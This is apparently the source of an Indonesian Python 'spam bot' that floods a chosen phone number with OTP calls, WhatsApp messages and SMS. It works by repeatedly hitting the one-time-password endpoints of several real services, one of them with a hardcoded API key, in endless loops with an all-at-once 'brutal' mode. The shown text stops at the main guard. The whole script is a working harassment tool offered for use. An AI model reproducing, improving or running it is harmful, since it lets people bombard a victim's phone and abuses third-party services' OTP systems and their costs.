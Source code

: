 # --- [ INFORMASI PEMBUAT ] --- #
versi = "Um9jaG1hdCBCYXN1a2k="
author = "Rochmat Basuki"
facebook = "facebook.com/ROZHBASXYZ"
github = "github.com/RozhBasXYZ"

# --- [ IMPORT MODULE ] --- #
import requests, re, time, os, random, base64, sys
from random import randint as rr
from random import choice as rc
ses = requests.Session()
no = 0

# --- [ CLEAR TERMINAL ] --- #
try: os.system("git pull")
except: pass
if sys.platform.lower() == "win": os.system("cls")
else: os.system("clear")

# --- [ UNTUK DELAY ] --- #
def waktu(min, sc):
    total_second = min * 60 + sc
    while total_second:
        mins, secs = divmod(total_second, 60)
        print(f'\r[*] delay 00:{mins:02d}:{secs:02d} detik', end='')
        time.sleep(1)
        total_second -= 1

# --- [ UNTUM SPAM CALL ] --- #
def spam_call(nomor):
	global no
	try:
		date = {"number": nomor,"country_code":"+62","type":"CITCALL"}
		ses.headers.update({"x-api-key": "GCMUDiuY5a7WvyUNt9n3QztToSHzK7Uj", "Key": "Um9jaG1hdCBCYXN1a2k="})
		if author not in base64.b64decode(ses.headers["Key"].encode("ascii")).decode("ascii"): exit(base64.b64decode("WyFdIEFPS1dPV0tXT0sgUkVLT0RFICEhISE=".encode("ascii")).decode("ascii"))
		post = ses.post("https://beta.api.saturdays.com/api/v1/user/otp/send", data=date).json()
		if "True" in str(post): no += 1; print(f"[{no}] sukses spam call")
		else: print("[*] terkena limit call")
		ses.cookies.clear(); ses.close()
	except Exception as e: pass

# --- [ UNTUK SPAM WA ] --- #	
def spam_wa(nomor):
	global no
	try:
		date = {"accountType":"customers","countryCode":"62","medium":"whatsapp","otpType":"register","phoneNumber": nomor}
		ses.headers.update({ "Key": "Um9jaG1hdCBCYXN1a2k="})
		if author not in base64.b64decode(ses.headers["Key"].encode("ascii")).decode("ascii"): exit(base64.b64decode("WyFdIEFPS1dPV0tXT0sgUkVLT0RFICEhISE=".encode("ascii")).decode("ascii"))
		post = ses.post("https://www.pinhome.id/api/pinaccount/request/otp", data=date).text
		if "Code" in str(post): no += 1; print(f"[{no}] sukses spam wa")
		else: print("\r[*] terkena limit wa")
		ses.cookies.clear(); ses.close()
	except Exception as e: pass

# --- [ UNTUK SPAM SMS ] --- #
def spam_sms(nomor):
	global no
	try:
		# Spam Sms 1 By Ipot Id
		date = {"action": "send_user_otp", "resendc": "2", "user_phone": "62"+nomor}
		post = ses.post("https://infokost.id/wp-admin/admin-ajax.php", data=date).text
		if "ok" in post: no += 1; print(f"\r[{no}] sukses spam sms      ")
		ses.cookies.clear(); ses.close()
	except Exception as e: pass
	
def menu_utama():
	print("             - BOT BRUTAL SPAM WA DAN CALL - \n                     [ RozhBasXYZ ]")
	afakah = input("[1] spam call\n[2] spam wa\n[3] spam sms\n[4] spam brutal\n[*] pilih : "); print('-'*15)
	nomor = input("[*] nomor : 0"); print('-'*15)
	if afakah in ["1"]:
		print("[!] spam call max 5X sehari per device"); print('-'*15)
		while True: spam_call(nomor); waktu(00, 60)
	elif afakah in ["2"]:
		print("[!] spam wa unlimited delay auto 30 detik"); print('-'*15)
		while True: spam_wa(nomor) ;waktu(00, 30)
	elif afakah in ["3"]:
		print("[!] spam sms unlimited tanpa batas"); print('-'*15)
		while True: spam_sms(nomor); waktu(00, 5)
	elif afakah in ["4"]:
		print("[!] 1 wa, 1 call dan 30 sms tanpa delay per 30 detik"); print('-'*15)
		while True:
			spam_call(nomor); spam_wa(nomor)
			for x in range(15): spam_sms(nomor)
	else: exit("[*] apa woyy")
	
if __name__ == "__main__":
